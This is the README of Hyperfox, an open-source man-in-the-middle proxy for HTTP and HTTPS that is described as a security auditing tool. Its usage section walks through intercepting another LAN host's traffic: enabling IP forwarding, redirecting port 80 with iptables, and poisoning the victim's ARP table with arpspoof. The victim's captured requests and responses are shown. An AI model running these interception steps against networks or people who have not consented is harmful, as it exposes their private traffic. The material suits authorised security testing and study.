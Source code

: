 # Hyperfox

Hyperfox is a security tool for Man In The Middle operations over HTTP and
HTTPs.

Hyperfox can be used as a tool for auditing a wide range of applications,
including mobile applications that do not properly verify certificates or that
do not use certificates at all.

The `hyperfox` tool is a default distribution of the Hyperfox proxy.

Hyperfox can also be used as a library to develop special proxies with [Go][1],
if you're interested on programming a special proxy for any special MITM
operation you may read the library documentation at [godoc.org][6].

## Features of the Hyperfox tool

The Hyperfox tool has some useful features:

* Saves all the traffic between client and server.
* Can modify server responses before arriving to the client.
* Can modify client requests before sending them to the destination server.
* Supports SSL/TLS.
* Supports streaming.

## Getting Hyperfox

You can download a pre-compiled binary of the Hyperfox tool:

* [Linux x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-linux-x64)
* [OSX x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-darwin-x64)

Once you've downloaded the appropriate binary move it to `$HOME/bin/hyperfox`
and call it using the full path:

```sh
$ ~/bin/hyperfox -h
```

If you have `$HOME/bin` in your `$PATH`, you may as well call `hyperfox`
without the full path:

```sh
$ hyperfox -h
```

If you have [Go][1] and [git][2] you can use `go get` to download the source
and compile the Hyperfox tool by yourself:

```sh
$ go get github.com/xiam/hyperfox
$ hyperfox -h
```

## Usage example

**I**. Make sure the [dsniff][5] tool is installed in the MITM machine, we are
going to use the `arpspoof` tool (part of [dsniff][5]) to alter the ARP table
of a specific machine on LAN to make it redirect its traffic to us instead of
to the legitimate LAN gateway. This ancient technique is known as
[ARP spoofing][4].

**II**. Identify the LAN IP of the machine you want to intercept traffic for.
Let's suppose you want to intercept traffic from `10.0.0.146`.

**III**. Identify the IP of your router and the name of the interface you're
connected with, let's say your router is `10.0.0.1` and you're connected to
the router through `wlan0`.

```sh
$ sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    0      0        0 wlan0
```

**IV**. Put the MITM machine in [IP forwarding][3] mode.

```sh
# Linux
$ sudo sysctl -w net.ipv4.ip_forward=1

# FreeBSD/OSX
$ sudo sysctl -w net.inet.ip.forwarding=1
```

**V**. Run hyperfox (as a normal, unprivileged user) within a writable directory:

```sh
$ mkdir -p ~/tmp/hyperfox-session
$ cd ~/tmp/hyperfox-session
$ hyperfox
2013/08/25 08:21:36 Hyperfox tool, by Carlos Reventlov.
2013/08/25 08:21:36 http://www.reventlov.com

2013/08/25 08:21:36 Listening for HTTP client requests at 0.0.0.0:9999.
```

If you want to analyze HTTPs instead of HTTP, use the `-s` flag and provide
appropriate
[cert.pem](https://github.com/xiam/hyperfox/raw/master/ssl/cert.pem) and
[key.pem](https://github.com/xiam/hyperfox/raw/master/ssl/key.pem) files.

```sh
$ hyperfox -s -c ssl/cert.pem -k ssl/key.pem
```

**VI**. Prepare the machine to forward everything but the port hyperfox will
intercept (`80`, for plain HTTP), instead tell it to forward the traffic on
port `80` to the `9999` port on `127.0.0.1` (where `hyperfox` is listening).

```sh
# Linux (HTTP)
$ sudo iptables -A PREROUTING -t nat -i wlan0 -p tcp --destination-port 80 -j \
REDIRECT --to-port 9999

# FreeBSD/OSX (HTTP)
$ sudo ipfw add fwd 127.0.0.1,9999 tcp from any to any 80 via wlan0
```

**VII**. Run `arpspoof` to make `10.0.0.146` think our host is `10.0.0.1` (the
LAN's legitimate gateway), once the ARP spoofing is completed, `10.0.0.146` will
start to send its traffic through our machine.

```sh
$ sudo arpspoof -i wlan0 -t 10.0.0.146 10.0.0.1
```

**VIII**. !???

**IX**. Profit!!

Once `10.0.0.146` starts to send some traffic, a `capture` directory will
be created, this directory contains client requests, server responses and
headers.

```sh
$ cd ~/tmp/hyperfox-session
$ ls
capture
$ cd capture
$ find .
./client
./client/10.0.0.146
./client/10.0.0.146/a.adcloud.net
./client/10.0.0.146/a.adcloud.net/adcloud
./client/10.0.0.146/a.adcloud.net/adcloud/12345
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
...
./server
./server/10.0.0.146
./server/10.0.0.146/a.adcloud.net
./server/10.0.0.146/a.adcloud.net/adcloud
./server/10.0.0.146/a.adcloud.net/adcloud/12345
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.body
...
```

You can see whatever is happening by watching hyperfox's output:

```sh
-> 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 0b
<- 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 -1b 200
-> 10.0.0.146:61716 m.vanityfair.com: GET /static/css/mobify.css?1335486443 HTTP/1.1 0b
-> 10.0.0.146:61717 m.vanityfair.com: GET /static/mcss/561/stag-carmot-vf.css?1370835026 HTTP/1.1 0b
-> 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b
-> 10.0.0.146:61719 dl.dropbox.com: GET /u/123456/vf-mobile/js/cn.mobifycore.js HTTP/1.1 0b
<- 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b 304
```

## License

> Copyright (c) 2012-2013 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: http://golang.org/doc/install
[2]: http://git-scm.com
[3]: http://en.wikipedia.org/wiki/IP_forwarding
[4]: http://en.wikipedia.org/wiki/ARP_spoofing
[5]: http://monkey.org/~dugsong/dsniff/
[6]: http://godoc.org/github.com/xiam/hyperfox/proxy
